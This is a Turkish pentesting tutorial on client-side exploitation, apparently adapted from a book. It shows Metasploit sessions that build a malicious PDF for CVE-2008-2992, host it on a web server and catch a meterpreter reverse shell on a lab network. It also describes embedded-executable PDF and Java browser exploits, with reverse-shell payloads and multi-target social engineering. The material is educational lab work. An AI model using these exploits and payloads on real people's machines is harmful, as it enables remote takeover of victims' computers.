






### Client-side Exploitation

#### PDF Sızma

Portable Document Format (PDF) yazılımına da sızma yapılabilir. Eğer kullanıcıyı kötü amaçlı PDF dosyamızı güvenlik zaafiyeti olan uygulamada görmesine ikna edebilirsek, o programa sızabiliriz.

Windows sistemlerinde en yaygın kullanınan PDF uygulaması Adobe Reader. Web tarayıcıları gibi, Adobe Reader'in de güvenlik açıkları ile çevrili bir tarihi vardır. Gene web tarayıcılarında olduğu gibi paketli güncelleme yönetimi mevcut olsa bile, genelde güncelleme yapmayı ihmal ettiğimiz program türlerinden.

Bizim Windows XP makinemizde Adobe Reader'in eski 8.1.2 sürümü kurulu, bu sürümünde CVE-2008-2992 sorunu bulunmakta. Bu sorun amaçlı Metasploit modülümüz ise _exploit/windows/fileformat/adobe_utilprintf_. Bu modüle gireceğimiz değerler şu ana kadar gördüklerimizden biraz farklı. Bu kullanıcı taraflı bir saldırı olduğundan _RHOST_ gibi değerlere gerek yok. Modülün yaptığı görev ise kötü amaçlı bir PDF oluşturmak.

```ShellSession
msf > use exploit/windows/fileformat/adobe_utilprintf 
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  ----------- 
    FILENAME   msf.pdf          yes       The file name.

Exploit target:
    Id  Name
    --  ----
    0  Adobe Reader v8.1.2 (Windows XP SP3 English)

msf exploit(adobe_utilprintf) > exploit [*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
```

Gördüğünüz gibi, PDF exploit için gireceğimiz tek değer oluşturulacak zararlı PDF dosyası için isim. Onu da varsayılan değeri _msf.pdf_ olarak bırakabiliriz. Bu örneğimiz için Metasploit'in varsayılan _windows/meterpreter/reverse_tcp_ payload'nı 4444 portunda kullanacağız. __exploit__ çalıştırdığımızda, Metasploit bizim için Windows XP SP3 English sisteminde bulunan güvenlik zaafiyeti Adobe Reader için zararlı PDF dosyası oluşturacaktır. Dosyamız _/root/.msf4/local/msf.pdf dizininde kaydedilecek.

Payload için bir işleyici (handler) ayarlamamız gerekiyor:

```ShellSession
msf exploit(adobe_utilprintf) > cp /root/.msf4/local/msf.pdf /var/www 
[*] exec: cp /root/.msf4/local/msf.pdf /var/www

msf exploit(adobe_utilprintf) > service apache2 start 
[*] exec service apache2 start

Starting web server: apache2.

msf exploit(adobe_utilprintf) > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9

msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:4444
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at 2015-05-05 20:26:15 -0400
```

Oluşturduğumuz dosyayı Apache sunucusuna atıyoruz, ve sunucuyu çalıştırıyoruz. Bu dosyayı sonradan anlatacağımız sosyal mühendislik yönteminde de kullanabiliriz, bir kişiye değilde birkaç kişiye göndereceğimizden _multi/handler_ modülünü kullandık. 

ExitOnSession varsayılan değerini false yaparak, oturum bilgisi aldığında dinleyicinin kapanmasını önleyebiliriz. Yani birkaç kullanıcı için, çoklu oturum açmış oluyoruz.

```ShellSession
msf exploit(handler) > show advanced 
Module advanced options:
--snip--
   Name           : ExitOnSession
   Current Setting: true
   Description    : Return from the exploit after a session has been created
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

##### PDF Embedded Executable

PDF saldırıları için diğer bir yöntem ise; PDF içine zararlı çalışan bir script yerleştirmek. Bu amaçlı kullanacağımız Metasploit modülü ise _exploit/windows/fileformat/adobe_pdf_embedded_exe_. Programa direk açılışında sızma yerine, PDF açıldığında bir script için çalıştırabilme yetkisini isteyecek. Kullanıcı buna izin verdiği takdirde, işlemimiz başarıyla sonuçlanır.



Bu modül (1) önceden oluşturduğumuz scripti __EXANAME__ değeri ile tanımlayabilmemizi sağlar; (2) oluşturacağımız pdf dosyası ismini, (3) __INFILE__ değeri ile giriş PDFyi, (4) __LAUNCH MESSAGE__ ile izin isterken göstereceğimiz mesajı belirleriz.

Aşağıdaki gibi lazım olan değerleri girelim. Örneğimiz için Kali Linux'la gelen Metasploit kullanım klavuzunu kullanıyoruz, _/user/share/set/readme/User_Manual.pdf_ da bulunur. Sonrasında oluşturulan dosya, gene _/root/msf4/local/_ dizininde yer alacak.



Zararlı PDF dosyası açıldığında, kullanıcı aşağıdaki gibi bir uyarı alacak. Atağın bu çeşidi kullanıcın _Open_ tıklamasına bağlı. Kullanıcı _Open_ tıkladığı takdirde payload çalışır ve biz oturum bilgisi alırız.



___

#### Java Sızma

Java açıkları kullanıcı taraflı ataklar için yaygın bir alandır. Aslında, bazı uzmanlar Javanın bu açıklarından dolayı onun kaldırılmasını veya web tarayıcılarımızdan devre dışı bırakılmasını önermektedir.

Java saldırılarını güçlü kılan unsur ise, bir exploit çoklu platform için kullanılabilir. Windows, Mac hatda Linux sistemlerinde web tarayıcısı içinde çalışan Java Runtime Environment (JRE) aynı exploit ile sızılabilmekte. Bunlardan birkaçına bakalım:

Bir numara olarak, _exploit/multi/browser/java_jre17_jmxbean_ Metasploit modülünü kullanalım. Metasploit zararlı bir sunucu oluşturur, ve o sayfaya gelen herkese sızar. Java 7 sürümü 11. güncellemeden önceki hepsi etkilenir.



Kendi çevremize göre değerleri belirliyoruz. _SRVHOST_ değerini şahsi yerel IP adresimiz; istersek _SRVPORT_'unda değiştirebiliriz; _URIPATH_ değerini hedefimizdeki tarayıcıda kolay yazabilecek bir değer atıyoruz.

Exploit'imiz çoklu platform desteklediğinden ve kod çalışma işlemi JRE içinde gerçekleştiği için, payload değerlerimiz Java tabanlıdır. Olagan şüphelilerin hepsi burda sıralınır inline payloads, staged payloads, bind shells, reverse shells, Meterpreter vb. Biz _java/meterpreter/reverse_http_ payloadını yasal HTTP trafiğini kullanıdığından onu seçiyoruz:



Yukardaki değerler artık size tanıdık gelmesi lazım. _LPORT_ varsayılan değeri şimdi 4444 yerine 8080. Dikkat edersek _SRVPORT_ ve _LPORT_ değerlerinin ikisi de aynı olduğundan, en azından birini değiştirmemiz gerekir.

Değerleri atadıktan sonra, exploit sunucusunu başlatalım ve Windows 7 makinemizde o zararlı sayfayı ziyaret edelim. Internet Explorer da Mozilla Firefox ta Java eklentisi açık olduğu sürece bu açığın kurbanı olacaklardır.

Ek olarak PDF de kullanıcı onaylaması ile ilgili örnekte yaptığımız gibi Signed Java Applet _exploit/multi/browser/java_signed_applet_ kullanarak ta aynı mantık ile bir sızma yapılabilir. Mantık aynı. Çıktı olarak aşağıdaki gibi olacaktır:




___ 

#### Winamp


* PDF Exploits
* Java Exploits
* Winamp


